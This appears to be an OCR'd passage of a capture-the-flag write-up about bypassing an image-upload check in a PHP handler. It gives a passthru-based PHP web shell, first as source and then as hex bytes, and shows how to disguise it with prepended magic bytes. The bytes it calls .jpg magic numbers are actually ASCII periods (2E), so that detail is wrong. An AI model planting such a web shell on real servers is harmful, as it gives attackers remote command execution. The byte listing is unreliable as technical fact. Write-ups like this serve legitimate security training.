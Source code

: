 ```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
}
```

This part changed and we can see `exif_imagetype($_FILES['uploadedfile']['tmp_name'])` is now if the file is an image (just like they said).
So we need to make our PHP script pretend it is an image.

> Use your favorite way to edit byte arrays, Python, Hex Editors, Jumper Cables, etc

Breaking down our script into bytes we get:

```
3C 3F 70 68 70 20 65 63 
68 6F 20 70 61 73 73 74 
68 72 75 28 24 5F 52 45 
51 55 45 53 54 5B 22 63 
6D 64 22 5D 29 3B 20 3F 
3E
```

In order to add the `.jpg` magic numbers we add four characters to the beginning.

```php
....<?php echo passthru($_REQUEST["cmd"]); ?>
```

Which broken into bytes is:

```
2E 2E 2E 2E 3C 3F 70 68 
70 20 65 63 68 6F 20 70 
61 73 73 74 68 72 75 28 
24 5F 52 45 51 55 45 53 
54 5B 22 63 6D 64 22 5D 
29 3B 20 3F 3E
```
